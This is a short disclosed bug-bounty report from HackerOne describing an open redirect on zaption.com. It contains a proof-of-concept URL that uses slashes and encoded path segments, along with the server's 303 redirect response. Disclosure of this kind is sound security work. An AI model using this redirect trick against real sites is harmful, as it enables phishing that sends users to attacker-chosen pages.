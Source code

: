 # [zaption.com] Open Redirect

## Report Details
- **Report ID**: 45516
- **URL**: https://hackerone.com/reports/45516
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2015-01-28T11:15:52.409Z
- **Disclosed**: 2016-10-29T16:09:35.995Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zaption

## Vulnerability Information
PoC:
http://zaption.com///www.google.com/%2f%2e%2e

HTTP Response:
> HTTP/1.1 303 See Other
> Access-Control-Allow-Origin: *
> Content-Type: text/html; charset=utf-8
> Date: Wed, 28 Jan 2015 11:10:52 GMT
> Location: //www.google.com/%2f%2e%2e/

## Attachments
No attachments

